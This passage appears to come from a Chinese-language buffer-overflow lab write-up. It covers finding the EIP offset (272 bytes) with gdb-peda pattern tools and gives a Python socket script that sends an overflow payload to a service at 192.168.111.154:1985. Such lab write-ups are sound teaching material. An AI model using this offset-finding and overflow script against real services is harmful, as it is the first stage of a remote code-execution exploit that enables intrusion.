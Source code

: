 4. 和上边一样测试
    
    ![image.png](image%20116.png)
    
    得到为唯一字符`25414925` 是`ASCII`码，但是因为是小端显示，所以要将字符反转`25494125`，得`%IA%`
    
    然后`gds`定位字符，那么就是说到`EIP`之前要填充`272`个字符，然后再增加四个字符就能覆盖`EIP`
    
    ```c
    gdb-peda$ pattern offset %IA%
    %IA% found at offset: 272
    ```
    
5. 测试是否能正确覆盖`EIP`
    
    ```c
    cat buffer.py
    import socket
    
    a = 'A' * 272 + 'B' * 4 + '\x00'
    s = socket.socket()
    s.connect(('192.168.111.154',1985))
    s.send(a.encode('utf-8'))
    s.close()
    ```
    